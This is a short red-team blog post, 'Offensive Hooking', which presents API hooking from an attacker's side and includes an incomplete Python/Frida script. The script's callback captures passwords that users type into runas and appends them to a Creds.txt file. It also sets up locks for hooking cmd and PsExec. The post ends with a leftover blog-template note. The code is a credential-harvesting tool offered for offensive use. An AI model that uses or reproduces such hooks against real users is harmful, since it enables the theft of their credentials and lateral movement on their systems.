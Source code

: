 ```yaml
---
title: Offensive Hooking
author: Ilan Kalendarov
date: 2021-02-10 14:10:00 +0800
categories: [Red Team]
tags: [hooking]
---
```


## Offensive Hooking



## Introduction

Hooking is not a new concept as we know by now, many AV/EDR vendors use this technique to monitor suspicious activity. In this blog post we'll explorer hooking but in the offensive point of view.



## API Monitor

Api Monitor is a great tool for .. you guest it, monitoring api calls.

```python
from __future__ import print_function
import frida
from time import sleep
import psutil
from threading import Lock, Thread
import sys

lockRunas = Lock()  # Locking the run as thread
lockCmd = Lock()  # locking the cmd thread
lockPsExec = Lock()  # locking the PsExec thread


def on_message_runas(message, data):
	# Executes when the user enters the password.
	# Then, open the txt file and append it
	print(message)
	if message['type'] == "send":
		with open("Creds.txt", "a") as f:
			f.write(message["payload"] + '\n')
		try:
			lockRunas.release()
			print("[+] released")
		except Exception:
			pass

```

> **Note**: The posts' ***layout*** has been set to `post` by default, so there is no need to add the variable ***layout*** in Front Matter block.



